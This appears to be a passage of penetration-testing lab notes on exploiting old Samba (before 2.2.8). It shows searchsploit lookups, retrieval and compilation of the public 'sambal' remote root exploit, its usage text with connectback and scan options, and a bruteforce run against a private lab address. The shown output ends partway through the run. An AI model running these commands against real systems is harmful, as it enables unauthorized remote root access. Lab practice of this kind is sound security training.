 #### Sambal

```bash
searchsploit "Samba < 2.2"

------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                   |  Path
                                                                                                                                                 | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                                                                                     | exploits/osx/remote/9924.rb
Samba 2.2.2 < 2.2.6 - 'nttrans' Remote Buffer Overflow (Metasploit) (1)                                                                          | exploits/linux/remote/16321.rb
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                                                                                | exploits/multiple/remote/10.c
------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result

searchsploit -m exploits/multiple/remote/10.c


  Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/10
     Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /root/10.c
gcc -o sambal 10.c

./sambal
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
Usage: ./sambal [-bBcCdfprsStv] [host]

-b <platform>   bruteforce (0 = Linux, 1 = FreeBSD/NetBSD, 2 = OpenBSD 3.1 and prior, 3 = OpenBSD 3.2)
-B <step>       bruteforce steps (default = 300)
-c <ip address> connectback ip address
-C <max childs> max childs for scan/bruteforce mode (default = 40)
-d <delay>      bruteforce/scanmode delay in micro seconds (default = 100000)
-f              force
-p <port>       port to attack (default = 139)
-r <ret>        return address
-s              scan mode (random)
-S <network>    scan mode
-t <type>       presets (0 for a list)
-v              verbose mode


./sambal -b 0 -v -c 192.168.88.128 192.168.88.129
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Using ret: [0xbffffc7c]
+ Using ret: [0xbffffb50]
```